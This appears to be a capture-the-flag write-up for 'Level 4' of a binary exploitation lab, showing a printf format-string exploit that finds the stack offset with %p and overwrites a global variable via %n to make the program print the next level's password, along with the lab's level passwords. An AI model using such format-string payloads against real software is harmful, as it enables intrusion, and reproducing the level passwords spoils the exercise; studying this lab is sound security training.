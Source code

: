 # Level 4
*password : b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*

## Analyze

```
$ scp -P 4242 level4@192.168.56.108:level4 .
```

```
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
```

`0x1025544` = 16930116\
`m` address = 0x08049810

## printf exploit

- overwrite `m` value using printf
```
$ python -c 'print "\x10\x98\x04\x08 %p %p %p %p %p %p %p %p %p %p %p %p"' | ./level4
DU 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x1025544
```

address of `m` at parameter 12th.

```
$ python -c 'print "\x10\x98\x04\x08%16930112u%12$n"' > /tmp/level4
$ cat /tmp/level4 - | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```
